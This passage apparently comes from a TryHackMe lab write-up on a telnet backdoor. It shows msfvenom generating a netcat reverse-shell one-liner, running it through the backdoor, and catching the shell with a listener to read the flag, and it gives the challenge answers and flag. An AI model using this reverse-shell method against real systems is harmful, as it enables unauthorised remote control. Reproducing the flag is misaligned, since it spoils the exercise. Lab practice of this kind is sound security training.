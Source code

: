 What word does the generated payload start with?

```
mkfifo
```

```shell
root@ip-10-10-46-62:~# msfvenom -p cmd/unix/reverse_netcat lhost=10.10.46.62 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/loqsthl; nc 10.10.46.62 4444 0</tmp/loqsthl | /bin/sh >/tmp/loqsthl 2>&1; rm /tmp/loqsthl
```

<br>

Now all we need to do is start a netcat listener on our local machine. We do this using:
**nc -lvp [listening port]**

What would the command look like for the listening port we selected in our payload?

```
nc -lvp 4444
```

<br>

Success!! What is the contents of flag.txt?

```
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

```shell
root@ip-10-10-46-62:~# telnet 10.10.220.9 8012
Trying 10.10.220.9...
Connected to 10.10.220.9.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.RUN mkfifo /tmp/loqsthl; nc 10.10.46.62 4444 0</tmp/loqsthl | /bin/sh >/tmp/loqsthl 2>&1; rm /tmp/loqsthl
```

```shell
root@ip-10-10-46-62:~# nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from ip-10-10-220-9.eu-west-1.compute.internal 57836 received!
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

<br>

### FTP (File Transfer Protocol)

---
